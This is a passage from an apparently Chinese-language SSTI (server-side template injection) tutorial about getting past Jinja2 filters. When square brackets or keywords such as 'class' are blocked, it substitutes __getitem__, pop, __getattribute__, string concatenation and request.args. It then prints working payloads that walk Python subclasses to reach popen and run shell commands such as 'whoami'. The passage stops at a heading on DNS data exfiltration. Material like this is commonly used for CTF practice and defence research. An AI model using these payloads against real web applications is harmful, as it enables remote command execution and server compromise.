 ### 过滤中括号

过滤了`[`和`]`

*   数字中的中括号
    

在 python 里面可以使用以下方法访问数组元素

```
Python 3.7.8
>>> ["a","kawhi","c"][1]
'kawhi'
>>> ["a","kawhi","c"].pop(1)
'kawhi'
>>> ["a","kawhi","c"].__getitem__(1)
'kawhi'
```

也就是说可以使用`__getitem__`和`pop`替代中括号，取列表的第 n 位

payload 如下

```
{{().__class__.__bases__.__getitem__(0).__subclasses__().__getitem__(433).__init__.__globals__.popen('whoami').read()}

{{().__class__.__base__.__subclasses__().pop(433).__init__.__globals__.popen('whoami').read()}}
```

*   魔术方法的中括号
    

调用魔术方法本来是不用中括号的，但是如果过滤了关键字，要进行拼接的话就不可避免要用到中括号，像这里如果同时过滤了 class 和中括号

可用`__getattribute__`绕过

```
{{"".__getattribute__("__cla"+"ss__").__base__}}
```

或者可以配合`request`一起使用

```
{{().__getattribute__(request.args.arg1).__base__}}&arg1=__class__
```

payload 如下

```
{{().__getattribute__(request.args.arg1).__base__.__subclasses__().pop(376).__init__.__globals__.popen(request.args.arg2).read()}}&arg1=__class__&arg2=whoami
```

这种同样是绕过关键字的方法之一

### 过滤双大括号

过滤了`{{`和`}}`

*   使用 dns 外带数据
    
